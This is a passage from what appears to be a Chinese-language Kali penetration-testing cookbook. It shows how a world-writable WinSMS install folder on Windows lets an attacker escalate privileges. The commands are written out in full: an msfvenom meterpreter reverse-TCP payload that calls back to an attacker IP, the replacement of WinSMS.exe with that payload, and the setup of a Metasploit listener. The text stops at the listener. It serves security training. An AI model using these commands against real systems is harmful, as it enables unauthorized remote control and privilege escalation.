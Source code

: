 # 配置错误的软件安装/不安全的文件权限

在这个示例中，我们将看到攻击者如何利用配置错误的软件安装并提升应用程序的权限。这是一个经典的例子，安装设置配置时没有考虑用户对应用程序文件和文件夹的权限。

## 准备工作

对于这个示例，我们需要安装一个名为 WinSMS 的应用程序。这可以从[`www.exploit-db.com/exploits/40375/`](https://www.exploit-db.com/exploits/40375/)下载，并且可以安装在运行 XP、Vista、7 或 10 的任何 Windows 机器上。出于演示目的，我们将使用 Windows 7。除此之外，我们还需要我们的 Kali 系统运行以获取反向 shell。

## 如何做到的...

1.  一旦我们安装了应用程序，我们将执行命令提示符并检查文件安装的文件夹的权限。输入以下命令：

```
cacls "C:\Program Files\WinSMS" 

```

输出将如下截图所示：

![如何做到...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_023.jpg)

1.  正如我们所看到的，有`Everyone`访问权限，并且拥有完全权限。这是一个严重的失误，这意味着任何有权访问系统的人都可以修改该文件夹中的任何文件。攻击者几乎可以做任何事情。攻击者可以将他的恶意文件与 WinSMS 的可执行文件放在一起，甚至替换 DLL 文件并执行他的命令。出于演示目的，我们将放置一个我们将从 Kali 创建的反向 shell，并等待连接。让我们开始。在您的 Kali 终端中，输入以下内容创建一个反向`exe` shell：

```
msfvenom -p windows/meterpreter/reverse_tcp       LHOST=192.168.157.151 LPORT=443 -f exe > WinSMS.exe

```

输出将如下截图所示：

![如何做到...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_024.jpg)

1.  我们下载这个可执行文件，并将其替换为安装软件的文件夹中的`WinSMS.exe`文件：![如何做到...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_025.jpg)

现在我们用新创建的 meterpreter 文件替换 WinSMS 文件：

![如何做到...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_026.jpg)![如何做到...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_027.jpg)

1.  现在我们已经放置了文件，让我们在 Metasploit 上打开一个监听器，等待看看当用户执行文件时会发生什么。在终端中输入以下命令设置 Metasploit 监听器：

```
      msfconsole
      use exploit/multi/handler
      set payload windows/meterpreter/reverse_tcp
      set lhost 192.168.157.151
      set lport 443
      exploit

```
